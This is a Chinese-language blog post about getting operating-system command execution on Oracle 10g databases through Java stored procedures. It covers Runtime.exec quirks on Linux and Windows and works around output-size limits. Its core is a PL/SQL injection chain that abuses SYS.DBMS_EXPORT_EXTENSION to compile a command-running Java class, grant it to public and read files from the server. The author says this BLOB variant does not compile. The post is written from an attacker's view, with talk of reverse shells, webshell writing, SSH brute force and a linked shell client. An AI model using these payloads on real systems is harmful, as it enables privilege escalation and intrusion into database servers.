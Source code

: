 ```yaml
---
title: oracle 10g 利用java命令执行的一些蛋疼的碎碎念
date: '2017-01-05T00:00:00.000Z'
categories: web
tags:
  - java
  - web
---
```


# Oracle java shell client

## oracle 10g 利用java命令执行的两个方法

这个网上太多了，不详细说。前提都是 10g，仅有create session或者其他普通权限（其实还是sys用户比较好使）。

1. 使用`SYS.DBMS_EXPORT_EXTENSION`函数。在oracle上创建Java包，里面创建执行命令函数。这个我将在后面的payload里详细说。
2. 使用 `dbms_xmlquery.newcontext() public role`

## linux 上的 /bin/bash 于 windows 的 cmd.exe 对于 Runtime.getRuntime\(\).exec\(\) 函数的差异

Runtime.getRuntime\(\).exec共有六个重载方法：

* public Process exec\(String command\)

在单独的进程中执行指定的字符串命令。

* public Process exec\(String \[\] cmdArray\)

在单独的进程中执行指定命令和变量

* public Process exec\(String command, String \[\] envp\)

在指定环境的独立进程中执行指定命令和变量

* public Process exec\(String \[\] cmdArray, String \[\] envp\)

在指定环境的独立进程中执行指定的命令和变量

* public Process exec\(String command,String\[\] envp,File dir\)

在有指定环境和工作目录的独立进程中执行指定的字符串命令

* public Process exec\(String\[\] cmdarray,String\[\] envp,File dir\)

在指定环境和工作目录的独立进程中执行指定的命令和变量

这里只讨论前两种： 在linux中推荐使用 public Process exec\(String \[\] cmdArray\) 这种重载方法，

```text
String[] cmd=new String[3];
cmd[0]="/bin/bash";
cmd[1]="-c";
cmd[2]=args;
Runtime.getRuntime().exec(cmd);
```

这样可以获得一个非交互式的shell，否则如果只传入一个字符串的话，只能是执行那一条命令的作用，无法使用bash语法，而'-c'参数可以调用其他指令。

在windows中，还是推荐使用 public Process exec\(String command\) 语法，因为cmd和bash一个很大不同是 /c 参数的调用分为两种情况，一种是 dos 内部指令，另一种是执行其他可执行文件。但是按照日常对cmd的使用来说，就算是执行其他可执行文件这种情况，比如 systeminfo 或者 whoami 命令（在system32下的可执行文件），也不会出现 cmd /c 于 cmd /c start 这两种执行方式混为一谈的情况。但是就我实际测试发现，在某些环境下，比如 oracle 10.2.0.1.0 + windows 2003 ，在使用oracle内置java执行exec时，如果 cmd 调用了可执行文件，那么会另起一个进程，而此进程的输入输出流会莫名其妙的不知所踪，无法捕获到。所以这里应该尽量使用 String command 这个重载的方法，将这两种形式区分开来。

## oracle 与 java 执行上的坑

一般来说在oracle中存储字符串类型是使用 varchar2 类型，并且这个类型可以与java的String类型隐式转化，兼容性比较好，所以一般payload都会使用这个。 如果对于一般的操作，比如可以反弹shell，或者可以web绝对路径写马，这种情况使用varchar2完全够用，但是只要是碰上oracle了，一般这个站不是这么好啃，站库分离，数据库服务器无法连接外网什么的，这种安全措施还是很常见的。这个时候我们需要一些烦躁的shell操作，因为只能通过oracle正向的连进去。这个时候 varchar2 就不够用了，因为varchar2最多只支持4000 bytes，如果你执行命令的输出超过了这个值，oracle执行会出错。4000看似很大，其实随便 ps 一下，netstat一下，或者读取个 .bash\_history 就超过了。 这里有两种解决方案，要么分块读，要么换一个更大的数据类型，oracle中有存储大文本文件的类型 CLOB 和存储大二进制文件的类型 BLOB，本来我尝试使用 BLOB 类型，但是最后还是在java类型和 oracle blob 类型的转化上跳进去没有出来。 这是我研究到最后的payload，但是还是无法编译通过，时间太晚了，不想看也不想写了，就这样吧，谁如果弄出来的话求告诉我一声，雪靴您！！

```text
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "BBigUtil" as import java.io.*;import java.sql.SQLException;import oracle.sql.BLOB; public class BBigUtil extends Object {public static BLOB runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream())); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();BLOB bbb = BLOB.getEmptyBLOB();bbb.setBytes(0,str.getBytes());return bbb;} catch (Exception e){try{BLOB bbb = BLOB.getEmptyBLOB();bbb.setBytes(0,e.toString().getBytes());return bbb;}catch(SQLException ee){return null;}}}}'''';END;'';END;--','SYS',0,'1',0) from dual;

select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function BBigRunCMD(p_cmd in varchar2)  return Blob  as language java name ''''''''BBigUtil.runCMD(java.lang.String) return String'''''''';   '''';END;'';END;--','SYS',0,'1',0) from dual;

select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on BBigRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual;

select UTL_RAW.cast_to_varchar2(sys.BBigRunCmd('cmd /c type c:\test\1.txt')) from dual;
```

最大的问题还是如何把string的byte数组存入 oracle.sql.BLOB ，根据手册中说的，可以使用setBytes，但是有个很操蛋的问题是，空的BLOB对象是不能操作的，编译可以通过，但是执行时，如果使用`BLOB.getEmptyBLOB()`这个静态方法获得一个空的blob，对他进行的所有操作都会报错。但是如果想要非空的blob，那么就要从一个 oracle 连接对象中获得。。。。这样太麻烦了，而且我并没有找到如何使一个`EmptyBLOB`变的可操作的方法。。。。希望有dalao可以解答。

## 最后的非交互式 shell 客户端

所以如果这个方法没解决的话，我们只能用那种比较弱智的方法了，我撸了一个 非交互式shell 的客户端，用该客户端结合oracle union 注入，基本可以得到一个较稳定的非交互式shell，并可以上传下载文件，如果目标上有相应依赖的话，还可以爆破ssh和端口扫描，暂时就这样吧，困的不行了，睡觉。 github地址： [oracle\_java\_shell\_client](https://github.com/5z1punch/oracle_java_shell_client)

